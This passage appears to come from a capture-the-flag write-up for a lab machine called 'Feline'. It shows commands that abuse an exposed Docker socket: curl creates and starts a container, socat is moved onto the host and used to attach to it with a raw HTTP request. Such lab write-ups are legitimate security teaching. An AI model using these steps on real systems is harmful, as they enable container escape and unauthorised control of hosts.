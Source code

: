 
```json
root@2d24bf61767c:~# curl -X POST --unix-socket /var/run/docker.sock -H "Content-Type: application/json" -d @create.json http://localhost/containers/create
```
```json
{"Id":"1571c332659ab2ef78b546ec34be1c5f907cf9cb747cffd1dbac6bf6ba43e0e9","Warnings":[]}
```

```json
curl -XPOST --unix-socket /var/run/docker.sock http://localhost/containers/e7841544cafee507ec5430fbe5672cf47987e6abc91265d2d45ef0ec89dc8f42/start
```

Now that the container had been started, I was able to start a connection to the container. For this I used socat which was not installed on the machine. Socat is located at `/usr/bin/socat` so I just needed to use a simple Python server to get it onto the machine.

<p class="imgMiddle">
<img src="/assets/img/ChallengeVMs/Feline/img9.png"  style="width: 70%" />
</p>


Once socat successfully connected to the docker socket, I was able to type in the following raw HTTP request:

```bat
./socat - UNIX-CONNECT:/var/run/docker.sock
```

```bat
POST /containers/e7841544cafee507ec5430fbe5672cf47987e6abc91265d2d45ef0ec89dc8f42/attach?stream=1&stdin=1&stdout=1&stderr=1 HTTP/1.1
Host:
Connection: Upgrade
Upgrade: tcp
```

<p class="imgMiddle">
<img src="/assets/img/ChallengeVMs/Feline/img10.png"  style="width: 70%" />
</p>

